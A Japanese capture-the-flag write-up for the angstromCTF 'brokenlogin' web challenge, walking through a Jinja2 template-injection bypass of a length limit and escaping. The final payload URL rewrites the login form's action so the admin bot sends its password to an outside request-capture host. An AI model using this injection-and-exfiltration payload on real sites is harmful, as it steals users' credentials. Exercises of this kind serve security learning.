

# brokenlogin:web:110pts
Talk about a garbage website... I don't think anybody's been able to [log in](https://brokenlogin.web.actf.co/) yet! If you find something, make sure to let the [admin](https://admin-bot.actf.co/brokenlogin) know.  
[Source code](app.py)　[Admin bot code](brokenlogin.js)  

# Solution
リンクとapp.pyとAdmin Botソースが渡される。  
アクセスすると失敗回数が表示されているログインフォームのようだ。  
  
ひとまずapp.pyを見ると絶対にログインできないことがわかる。  
```python
~~~
indexPage = """
<html>
    <head>
        <title>Broken Login</title>
    </head>
    <body>
        <p style="color: red; fontSize: '28px';">%s</p>
        <p>Number of failed logins: {{ fails }}</p>
        <form action="/" method="POST">
            <label for="username">Username: </label>
            <input id="username" type="text" name="username" /><br /><br />

            <label for="password">Password: </label>
            <input id="password" type="password" name="password" /><br /><br />

            <input type="submit" />
        </form>
    </body>
</html>
"""

@app.get("/")
def index():
    global fails
    custom_message = ""

    if "message" in request.args:
        if len(request.args["message"]) >= 25:
            return render_template_string(indexPage, fails=fails)
        
        custom_message = escape(request.args["message"])
    
    return render_template_string(indexPage % custom_message, fails=fails)


@app.post("/")
def login():
    global fails
    fails += 1
    return make_response("wrong username or password", 401)
~~~
```
ここで`message`にSSTIがあることに気づくが、25文字以下でRCEは難しそうである。  
次にAdmin Botのソースを見る。  
```js
module.exports = {
    name: "brokenlogin",
    timeout: 7000,
    async execute(browser, url) {
        if (!/^https:\/\/brokenlogin\.web\.actf\.co\/.*/.test(url)) return;
        
        const page = await browser.newPage();

        await page.goto(url);
        await page.waitForNetworkIdle({
            timeout: 5000,
        });

        await page.waitForSelector("input[name=username]");
        
        await page.$eval(
          "input[name=username]",
          (el) => (el.value = "admin")
        );

        await page.waitForSelector("input[name=password]");

        await page.$eval(
          "input[name=password]",
          (el, password) => (el.value = password),
          process.env.CHALL_BROKENLOGIN_FLAG
        );

        await page.click("input[type=submit]");

        await new Promise((r) => setTimeout(r, 1000));

        await page.close();
    },
};
```
フラグをパスワードとしてPOSTしているようだ。  
POST先を書き換えてやる必要があるとわかるのでHTMLインジェクションでformタグを壊したい。  
先ほどの`message`ではSSTIがあるものの25文字以下かつ`escape`がかかっているので有効なHTMLタグなどは挿入できないように見える。  
初めに25文字以下であるという制限の突破を考える。  
ここで`{{request.args.s}}`としてやればクエリストリングス`s`に入れた文字が出力されることを思い出す。  
これにより任意の文字数を表示することは可能となったが、テンプレートの自動サニタイズの問題が残る。  
「Jinja2 SSTI sanitize bypass」などで検索していると`{{ '<script>alert(3)</script>' | safe }}`でサニタイズが行われないと[あった](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#cross-site-scripting)。  
これを使い、SSTIを使ったHTMLインジェクションを行えばよい。  
今回はformのactionを書き換えるだけで事足りる。  
最終的に以下のURLとなった(リクエスト受信サーバにはRequestBin.comを利用)。  
```
https://brokenlogin.web.actf.co/?message={{request.args.s|safe}}&s=<form action="https://enqsru1lxbgj.x.pipedream.net/"
```
これをAdmin Botへ投げてやると以下のリクエストが届いた。  
```
GET
/?username=admin&password=actf%7Badm1n_st1ll_c4nt_l0g1n_11dbb6af58965de9%7D
```
flagが得られた。  

## actf{adm1n_st1ll_c4nt_l0g1n_11dbb6af58965de9}